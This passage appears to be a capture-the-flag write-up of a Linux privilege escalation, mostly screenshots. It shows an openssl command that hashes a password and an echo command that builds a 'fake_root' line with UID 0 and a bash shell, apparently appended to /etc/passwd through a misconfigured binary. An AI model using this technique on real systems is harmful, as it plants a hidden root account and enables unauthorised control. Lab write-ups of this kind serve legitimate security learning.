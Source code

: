 ![Pasted image 20210910073647](https://user-images.githubusercontent.com/67979878/132949203-9d75d769-f85f-410e-a9bc-bd43535fe32a.png)

it will take a file as argument 1 and add it to argument 2 in append mode .
we can write in /etc/passwd and /etc/shadow hence we can run the executable file as root privileged 
 
>  generate new password :

`$ openssl passwd  -1 'i am a hacker mama'`

`1 : md5_hash` 

`$ echo "fake_root:\$1\$A2X51.Kq\$Gk9Rn77C.0yrQLIHAw3Nw/:0:0:root:/root:/bin/bash" > new_user `

> send via network 


![Pasted image 20210910075003](https://user-images.githubusercontent.com/67979878/132949206-5d51c4fe-3b71-40b4-a194-7a010c49c7fd.png)

![Pasted image 20210910075025](https://user-images.githubusercontent.com/67979878/132949226-0a55edd7-f6a4-451a-9f4b-e26c0baf02a8.png)

> exploit !

![Pasted image 20210910075153](https://user-images.githubusercontent.com/67979878/132949265-9ee533ef-d875-4745-86f0-5360a42a07d9.png)

![Pasted image 20210910075224](https://user-images.githubusercontent.com/67979878/132949273-cdf47dcd-6a02-46e1-b024-307931c8b39e.png)

## from the machine :

![Pasted image 20210910075354](https://user-images.githubusercontent.com/67979878/132949277-faf5edb6-2a4c-423f-9d0a-5e0cde47c7b8.png)



# pwned !
